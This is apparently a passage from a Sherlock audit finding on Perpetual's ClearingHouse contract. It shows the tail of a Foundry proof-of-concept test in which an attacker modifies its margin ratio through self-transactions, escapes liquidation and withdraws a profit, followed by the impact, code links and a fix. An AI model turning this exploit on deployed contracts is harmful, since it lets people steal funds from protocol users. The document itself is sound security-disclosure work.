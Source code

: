 ```js
        assertEq(vault.getPositionSize(marketId, attacker), 0);
        assertEq(vault.getOpenNotional(marketId, attacker), 0);
        // attacker withdraw
        uint256 attackerMargin = uint256(vault.getMargin(marketId, attacker));
        vault.transferMarginToFund(marketId, attackerMargin / 1e12);
        vault.withdraw(attackerMargin / 1e12);
        vm.stopPrank();
        assertEq(collateralToken.balanceOf(attacker) - attackerStartCollateralToken, 50e6);
    }
    [PASS] testModifyAccountMarginRatio() (gas: 1592859)
```
## Impact
The attacker uses self-transaction to customize the `makerData` parameters modify the `MarginRatio` .causing the account to not be liquidated as expected.
## Code Snippet
https://github.com/sherlock-audit/2024-02-perpetual/blob/main/perp-contract-v3/src/clearingHouse/ClearingHouse.sol#L288-L299
https://github.com/sherlock-audit/2024-02-perpetual/blob/main/perp-contract-v3/src/clearingHouse/ClearingHouse.sol#L325-L331
https://github.com/sherlock-audit/2024-02-perpetual/blob/main/perp-contract-v3/src/clearingHouse/ClearingHouse.sol#L466-L468
https://github.com/sherlock-audit/2024-02-perpetual/blob/main/perp-contract-v3/src/clearingHouse/ClearingHouse.sol#L462-L476

## Tool used

Manual Review

## Recommendation
Accounts are prohibited from passing custom parameters in self-transactions
